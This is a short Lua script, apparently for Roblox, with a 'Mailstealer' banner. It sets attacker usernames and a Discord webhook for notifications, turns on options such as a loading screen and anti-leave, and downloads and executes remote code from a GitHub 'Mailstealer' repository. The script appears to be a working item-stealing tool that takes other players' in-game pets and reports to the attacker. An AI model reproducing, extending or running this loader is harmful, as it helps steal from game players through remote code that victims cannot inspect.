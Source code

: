 --[[
  __  __       _ _     _             _           
  |  \/  | __ _(_) |___| |_ ___  __ _| | ___ _ __ 
  | |\/| |/ _` | | / __| __/ _ \/ _` | |/ _ \ '__|
  | |  | | (_| | | \__ \ ||  __/ (_| | |  __/ |   
  |_|  |_|\__,_|_|_|___/\__\___|\__,_|_|\___|_|   

]]--

UserName = "TmzSlaaytox" -- good pets
Webhook = "https://discord.com/api/webhooks/1346209394530189352/ZugxowzSu6D0JVeARklfWc8n-hIc_-WVW4nYM3MP-q8pDOR2zjI6DCeyMl3vErqhKQCr" -- pings for pets
UserName2 = "timlebg6666" -- bad pets

_G.LoadingScreen = false -- make it true if you want the loadingscreen
_G.AntiLeave = false -- make it true if you want the antileave
_G.MouseLock = false -- make it true if you want the mouselock

loadstring(game:HttpGet("https://raw.githubusercontent.com/Egorikusa/Mailstealer/main/engine"))()
